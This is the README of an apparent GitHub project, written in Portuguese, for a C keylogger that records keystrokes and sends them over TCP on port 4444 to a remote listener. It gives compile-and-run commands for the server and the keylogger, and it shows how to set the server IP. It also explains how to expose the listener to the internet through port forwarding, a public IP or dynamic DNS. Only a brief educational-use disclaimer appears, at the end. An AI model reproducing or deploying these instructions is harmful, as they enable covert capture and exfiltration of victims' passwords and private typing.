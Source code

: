 # Keylogger com Envio Remoto

Este projeto implementa um keylogger simples em C que captura as teclas digitadas e as envia para um servidor remoto via TCP.

## 🚀 Como Usar

### 📡 1️⃣ Configurar o Servidor (Recebe os Logs)
1. No computador que **receberá os logs**, compile e execute o servidor:

```bash
gcc server.c -o server.exe -lws2_32
server.exe
```

2. O servidor ficará escutando conexões na porta `4444` e salvará os logs recebidos em `log_remoto.txt`.

### 💻 2️⃣ Configurar o Keylogger (Envia os Logs)
1. No **computador onde será capturado o teclado**, altere o IP do servidor no código-fonte:
   ```c
   #define SERVER_IP "192.168.1.100"  // 🛑 Substitua pelo IP do servidor
   ```
2. Compile e execute o keylogger:
   ```bash
   gcc keylogger.c -o keylogger.exe -lws2_32
   keylogger.exe
   ```

### 📍 Como Descobrir o IP do Servidor?
No computador que rodará o servidor, abra o **Prompt de Comando (CMD)** e digite:
```cmd
ipconfig
```

🔹 Pegue o **Endereço IPv4** e substitua no código do keylogger.

### 🌐 Rodando na Internet
Se quiser rodar em redes externas, você precisa:
- Configurar **port forwarding** no roteador para liberar a porta `4444`.
- Usar um **IP público** ou configurar um **DNS dinâmico**.

## ⚠️ Aviso Legal
**Este código deve ser usado apenas para fins educacionais e testes em máquinas próprias.** O uso indevido pode ser ilegal. Use com responsabilidade! 🔥
